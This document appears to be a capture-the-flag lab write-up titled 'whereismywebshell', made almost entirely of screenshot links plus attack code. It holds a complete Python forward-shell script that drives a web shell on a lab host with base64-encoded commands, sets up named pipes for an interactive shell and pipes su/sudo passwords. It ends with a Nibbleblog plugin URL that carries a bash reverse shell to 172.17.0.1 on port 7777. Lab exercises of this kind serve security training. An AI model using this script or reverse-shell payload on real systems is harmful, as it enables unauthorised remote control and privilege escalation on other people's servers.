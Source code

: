 ![](images/images-whereismywebshell/Pasted%20image%2020250224112721.png)

![](images/images-whereismywebshell/Pasted%20image%2020250224113243.png)

![](images/images-whereismywebshell/Pasted%20image%2020250224113426.png)

![](images/images-whereismywebshell/Pasted%20image%2020250224113710.png)

![](images/images-whereismywebshell/Pasted%20image%2020250224113731.png)

![](images/images-whereismywebshell/Pasted%20image%2020250224114130.png)

![](images/images-whereismywebshell/Pasted%20image%2020250224115315.png)

![](images/images-whereismywebshell/Pasted%20image%2020250224115453.png)

![](images/images-whereismywebshell/Pasted%20image%2020250224120034.png)

![](images/images-whereismywebshell/Pasted%20image%2020250224162035.png)

``` python
#!/usr/bin/python3

import requests, time, threading, signal, sys
from base64 import b64encode
from random import randrange
import re

class AllTheReads(object):
    def __init__(self, interval=1):
        self.interval = interval
        thread = threading.Thread(target=self.run, args=())
        thread.daemon = True
        thread.start()

    def run(self):
        readoutput = """/bin/cat %s""" % (stdout)
        clearoutput = """echo '' > %s""" % (stdout)
        while True:
            output = RunCmd(readoutput)
            if output:
                RunCmd(clearoutput)
                print(output)
            time.sleep(self.interval)

def extract_pre_content(html):
    """
    Extrae el contenido dentro de las etiquetas <pre> de una respuesta HTML.
    """
    match = re.search(r'<pre>(.*?)</pre>', html, re.DOTALL)
    if match:
        return match.group(1).strip()
    return ""

def RunCmd(cmd):
    """
    Ejecuta un comando remoto a través de la vulnerabilidad RCE.
    """
    cmd = cmd.encode('utf-8')
    cmd = b64encode(cmd).decode('utf-8')
    payload = {
        'parameter': 'echo "%s" | base64 -d | sh' % (cmd)
    }
    response = requests.get('http://172.17.0.2/shell.php', params=payload, timeout=5).text
    result = extract_pre_content(response)
    return result

def WriteCmd(cmd):
    """
    Escribe un comando en el servidor remoto.
    """
    cmd = cmd.encode('utf-8')
    cmd = b64encode(cmd).decode('utf-8')
    payload = {
        'parameter': 'echo "%s" | base64 -d > %s' % (cmd, stdin)
    }
    response = requests.get('http://172.17.0.2/shell.php', params=payload, timeout=5).text
    result = extract_pre_content(response)
    return result

def ReadCmd():
    """
    Lee la salida del comando ejecutado en el servidor remoto.
    """
    GetOutput = """/bin/cat %s""" % (stdout)
    output = RunCmd(GetOutput)
    return output

def SetupShell():
    """
    Configura una shell remota utilizando named pipes (fifo).
    """
    NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)
    try:
        RunCmd(NamedPipes)
    except:
        None
    return None

global stdin, stdout
session = randrange(1000, 9999)
stdin = "/dev/shm/input.%s" % (session)
stdout = "/dev/shm/output.%s" % (session)
erasestdin = """/bin/rm %s""" % (stdin)
erasestdout = """/bin/rm %s""" % (stdout)

SetupShell()

ReadingTheThings = AllTheReads()

def sig_handler(sig, frame):
    """
    Maneja la señal de salida (Ctrl+C) y limpia los archivos temporales.
    """
    print("\n\n[*] Exiting...\n")
    print("[*] Removing files...\n")
    RunCmd(erasestdin)
    RunCmd(erasestdout)
    print("[*] All files have been deleted\n")
    sys.exit(0)

signal.signal(signal.SIGINT, sig_handler)

def prompt_for_password():
    """
    Pide al usuario que ingrese una contraseña (en caso de su o sudo).
    """
    password = input("Password: ")
    return password

def execute_shell_command(command, password=None):
    """
    Ejecuta un comando en la shell remota, interactuando si es necesario con su o sudo.
    """
    if command.startswith("su") or command.startswith("sudo su"):
        if password:
            # Ejecutar 'su' o 'sudo su' con la contraseña proporcionada
            command = f"echo '{password}' | {command}"
    result = WriteCmd(command)
    return result

while True:
    cmd = input(">>> ")

    if cmd.startswith("su") or cmd.startswith("sudo su"):
        password = prompt_for_password()  # Pide la contraseña
        result = execute_shell_command(cmd, password)
    else:
        result = WriteCmd(cmd + "\n")
    
    if result:
        print(result)
    else:
        print("No output or empty response.")
    
    time.sleep(1.1)
```

![](images/images-whereismywebshell/Pasted%20image%2020250225163304.png)

![](images/images-whereismywebshell/Pasted%20image%2020250225175529.png)

http://172.17.0.2/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash%20-i%20>%26%20/dev/tcp/172.17.0.1/7777%200>%261

![](images/images-whereismywebshell/Pasted%20image%2020250226103856.png)

![](images/images-whereismywebshell/Pasted%20image%2020250226103812.png)
